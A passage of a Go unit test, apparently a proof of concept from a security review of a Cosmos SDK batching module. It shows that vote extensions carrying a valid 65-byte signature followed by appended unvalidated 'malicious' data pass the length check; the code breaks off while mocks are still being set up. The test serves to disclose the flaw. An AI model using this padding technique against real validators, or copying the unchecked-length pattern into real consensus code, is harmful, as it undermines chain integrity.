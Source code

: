 ```go
	ctx := sdk.Context{}.WithBlockHeight(100)

	// Setup a test batch with a proper 32-byte hash
	batchID := crypto.Keccak256([]byte("test-batch-id")) // Create a proper 32-byte hash
	mockBatch := &batchingtypes.Batch{
		BatchNumber: 98,
		BatchId:     batchID,
	}

	// Generate a private key for signing
	privateKey, err := crypto.GenerateKey()
	require.NoError(t, err)

	// Get the public key
	publicKey := crypto.FromECDSAPub(&privateKey.PublicKey)

	// Create a valid signature for our test batch ID
	validSignature, err := crypto.Sign(mockBatch.BatchId, privateKey)
	require.NoError(t, err)
	require.Equal(t, 65, len(validSignature), "secp256k1 signature should be 65 bytes")

	t.Log("VULNERABILITY EXPLANATION: Vote Extension Size Validation")
	t.Log("The code allows vote extensions up to 325 bytes but only verifies the first 65 bytes")
	t.Log("This allows validators to append arbitrary data after a valid signature")

	// Create an oversized vote extension with valid signature + malicious data
	maliciousData := []byte("MALICIOUS_PAYLOAD_DATA_THAT_IS_NEVER_VALIDATED_BY_THE_SYSTEM")
	oversizedExtension := append(validSignature, maliciousData...)

	// Confirm our extension is within allowed limits but larger than a valid signature
	require.Greater(t, len(oversizedExtension), 65)
	require.LessOrEqual(t, len(oversizedExtension), MaximumVoteExtensionLength)

	t.Logf("Valid signature length: %d bytes", len(validSignature))
	t.Logf("Oversized extension length: %d bytes", len(oversizedExtension))
	t.Logf("Extra unvalidated data: %d bytes", len(oversizedExtension)-65)
	t.Logf("Maximum allowed extension length: %d bytes", MaximumVoteExtensionLength)

	// Create a validator address and setup mocks
	testConsAddr := sdk.ConsAddress(bytes.Repeat([]byte{1}, 20)) // Create a proper consensus address
	valAddr := sdk.ValAddress([]byte("test_val_addr"))

	// IMPORTANT: Set up mock expectations BEFORE creating the handler
	// Mock the validator lookup - use gomock.Any() for both parameters
	mockStakingKeeper.EXPECT().
		GetValidatorByConsAddr(gomock.Any(), gomock.Any()).
		Return(stakingtypes.Validator{
			OperatorAddress: valAddr.String(),
		}, nil).
		AnyTimes()

	// Setup a batch for the test
	mockBatchingKeeper.EXPECT().
		GetBatchForHeight(gomock.Any(), gomock.Any()).
		Return(*mockBatch, nil).
		AnyTimes()

	// Mock the validator tree entry
	mockBatchingKeeper.EXPECT().
		GetValidatorTreeEntry(gomock.Any(), gomock.Any(), gomock.Any()).
		Return(batchingtypes.ValidatorTreeEntry{
			ValidatorAddress: valAddr,
```